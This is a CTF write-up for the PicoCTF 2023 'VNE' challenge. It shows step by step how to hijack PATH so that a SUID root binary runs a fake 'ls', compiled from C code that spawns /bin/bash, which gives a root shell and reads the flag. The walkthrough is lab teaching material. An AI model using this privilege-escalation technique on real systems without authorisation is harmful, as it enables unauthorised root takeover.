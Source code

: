 ```yaml
---
title: "PicoCTF 2023 Binary Exploitation: VNE"
description: "Writeup for VNE from PicoCTF 2023"
slug: "picoctf-vne"
date: "2023-04-06 00:00:00+0000"
image: "cover.jpg"
categories:
    - "CTF"
tags:
weight: 1
---
```


```
📁Category: Binary Exploitation
📄Files: N/A
💻Server Connections: Yes
🏷️Tags: bash, env, injection

📃Description: We've got a binary that can list directories as root, try it 
out !! Additional details will be available after launching your challenge 
instance.

1️⃣Hint 1: Have you checked the contents of the /root folder?
2️⃣Hint 2: Find a way to add more instruction to ls
```

### Takeaways from hints, description, and tags: 
* Something important is in the /root file (the flag)
* We will have to use environment variables
* The binary lists contents of a directory as root
* We need to inject code into “ls”

## Phase 1: Recon 🔍
It is important to get familiar with the machine we log into so that we can find important assets such as possible vulnerabilities, which we may be able to exploit to get us root access.

### What do we notice? 
* A binary that lists a directory as root
* Why this is important: It does it as root via an SUID bit, because the root user made the executable
* How it works: It takes the input for the directory as an environment variable
* Other important takeaways: If it is listing the contents of a directory, it is most probably doing something with the ls binary

```
ctf-player@pico-chall$ ls
bin
ctf-player@pico-chall$ file bin
bin: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l d-linux-x86-64.so.2, BuildID[shal]=202cb71538089bb22aa22d5d3f8f77a8a94a826f, for GNU/Linux 3.2.0, not stripp 
ctf-player@pico-chall$ ls -l
ed
total 20
-rwsr-xr-x 1 root root 18752 Aug 4 2023 bin
ctf-player@pico-chall$
```

> SUID, short for Set User ID, is a special permission that can be assigned to executable files. When an executable file has the SUID permission enabled, it allows users who execute the file to temporarily assume the privileges of the file's owner.

## Phase 2: Constructing a Plan 🛠️
Using the information we have gathered, we can try to assess vulnerabilities on our target system. So far, we have thought of environment variable injection, but now it is time for us to plot out this plan.

### The Plan 
We make our own ls binary that spawns a shell. Since the file has an SUID, this will give us a root shell if the binary we are manipulating uses ls (in which according to the hints, it does).

There are however, some rather huge obstacles


> Q1: How would we execute this plan so that the binary we are manipulating thinks our ls binary is the real ls binary?

> A1: We could exploit the `PATH` environment variable. Many hints and tags tell us that the exploit has something to do
with environment variables and the ls executable which the SUID binary is most likely using for its operations.



> Q2: What directory should we put our binary into?

> A2: The answer is /tmp. A directory with read, write, and execute permissions for everyone. This is perfect as it will
be the perfect soil to plant our C code in.

### The Theory: 
When "ls" is typed into the command line, the system looks through path for an executable with the name "ls". So in our injected PATH, because `/tmp` is first, when the binary which runs ls as root runs "ls" as root it wil run our binary as root which will run /bin/bash root.

![image](https://github.com/shuban-789/PicoPwnbooks-BinaryExploitation/assets/67974101/9525b700-e39d-4ec6-a2b6-62fe0edec152)


## Phase 3: Execution 🧀
First, let's log onto our machine. To logon, we will need to use ssh with the command format of: 

`ssh -p <port> <user>@<ip>`

After logging on, let’s list our environment variables, and try editing the PATH.

```
ctf-player@pico-chall$ env SHELL=/bin/bash
PWD=/home/ctf-player
LOGNAME=ctf-player
MOTD_SHOWN=pam
HOME=/home/ctf-player
LANG=C.UTF-8
SSH_CONNECTION=127.0.0.1 55826 127.0.0.1 22
TERM=xterm-256color
USER=ctf-player
SHLVL=1
PS1=\[\e[35m\]\u\[\e[m\]@\[\e[35m\]pico-chall\[\e[m\]$ SSH_CLIENT=127.0.0.1 55826 22
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
SSH_TTY=/dev/pts/0
_=/usr/bin/env
ctf-player@pico-chall$ export PATH=/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/ga
mes:/usr/local/games:/snap/bin
ctf-player@pico-chall$ env
SHELL=/bin/bash
PWD=/home/ctf-player
LOGNAME=ctf-player
MOTD_SHOWN=pam
HOME=/home/ctf-player
LANG=C.UTF-8
SSH_CONNECTION=127.0.0.1 55826 127.0.0.1 22
TERM=xterm-256color
USER=ctf-player
SHLVL=1
PS1=\[\e[35m\]\u\[\e[m\]@\[\e[35m\]pico-chall\[\e[m\]$ SSH_CLIENT=127.0.0.1 55826 22
PATH=/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
SSH_TTY=/dev/pts/0
_=/usr/bin/env
ctf-player@pico-chall$
```

It looks like the injection worked, so we can move on to making our fake ls executable.

Finally, we need to make our fake ls binary containing this C code:

```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
  system("/bin/bash");
}
```

<br>

```
ctf-player@pico-chall$ touch ls.c
ctf-player@pico-chall$ echo "#include <stdio.h>" >> ls.c
ctf-player@pico-chall$ echo "#include <stdlib.h>" >> ls.c
ctf-player@pico-chall$ echo "int main()" >> ls.c
ctf-player@pico-chall$ echo "{" >> ls.c
ctf-player@pico-chall$ echo " system(\"/bin/bash\");" >> ls.c 
ctf-player@pico-chall$ echo "}" >> ls.c
ctf-player@pico-chall$ cc ls.c -o ls
```

Lets execute!

```
ctf-player@pico-chall$ ./bin
Listing the content of /root as root:
root@challenge:/# cd /root
root@challenge: /root# cat flag.txt
picoCTF{try_to_pwn_VNE_on_your_own}root@challenge: /root# exit
```

### Disclaimer
The flag obtained in the command sequence example is obviously an edited version of the real flag. I highly reccomend you to try to solve the VNE problem and obtain its flag on your own.

